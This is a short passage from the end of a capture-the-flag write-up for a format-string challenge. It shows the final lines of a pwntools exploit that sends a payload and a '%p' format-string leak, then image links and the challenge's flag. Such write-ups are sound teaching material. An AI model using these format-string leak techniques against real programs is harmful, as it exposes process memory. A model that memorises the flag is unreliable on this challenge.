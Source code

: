 ```py

io.sendline(payload)
io.recvuntil(b'> ')
io.sendline(b"%p " * 30)

# Get our flag/shell
io.interactive()
```

### Result
![IMG](/assets/images/boh2022-format2win/img13.png)

Decode the hex values to obtain the flag:
![IMG](/assets/images/boh2022-format2win/img14.png)

## Flag:
```
APUBOH22{134klng_d4t4_with_f0rm4t_sp3cifi3r}
```
